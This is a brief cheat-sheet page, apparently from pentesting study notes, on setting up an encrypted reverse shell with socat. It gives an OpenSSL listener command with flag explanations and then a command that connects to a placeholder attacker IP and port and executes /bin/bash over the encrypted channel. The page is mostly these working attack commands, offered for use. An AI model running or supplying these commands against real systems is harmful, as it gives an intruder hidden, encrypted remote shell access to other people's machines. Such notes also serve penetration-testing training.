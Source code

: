 ```yaml
---
description: Encrypted communications
---
```


# Socat

Setup a listener encrypted

```sh
socat -d -d OPENSSL-LISTEN:<ATTACKERPORT>,cert=thm-reverse.pem,verify=0,fork STDOUT
```

* `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
* `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
* `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
* `verify=0` disables checking peer’s certificate
* `fork` creates a sub-process to handle each new connection.



Call the encrypted listener from attacker machine

```sh
socat OPENSSL:<ATTACKERIP>:<ATTACKERPORT>,verify=0 EXEC:/bin/bash
```
